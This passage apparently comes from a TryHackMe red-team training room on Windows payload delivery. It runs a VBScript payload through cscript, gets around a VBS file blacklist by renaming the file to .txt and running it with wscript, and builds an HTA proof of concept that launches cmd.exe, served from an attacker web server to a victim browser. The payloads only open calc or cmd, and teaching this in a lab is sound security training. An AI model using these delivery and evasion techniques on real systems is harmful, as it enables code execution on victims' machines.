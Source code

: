 We can also run it via cscript as follows,

```shell-session
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs
```

As a result, the Windows calculator will appear on the Desktop.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/8c7cbe29ee437b83a244994621cf6996.png)

Another trick. If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,

```shell-session
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

The result will be as exact as executing the vbs files, which run the calc.exe binary.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f6d6a5f824fa64750e8b15ce6ba07a7a.png)

## An HTML Application - HTA

***

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.&#x20;

In the following example, we will use an [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

```shell-session
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f3a719e8137e6fdca683eefbf373ea4f.png)
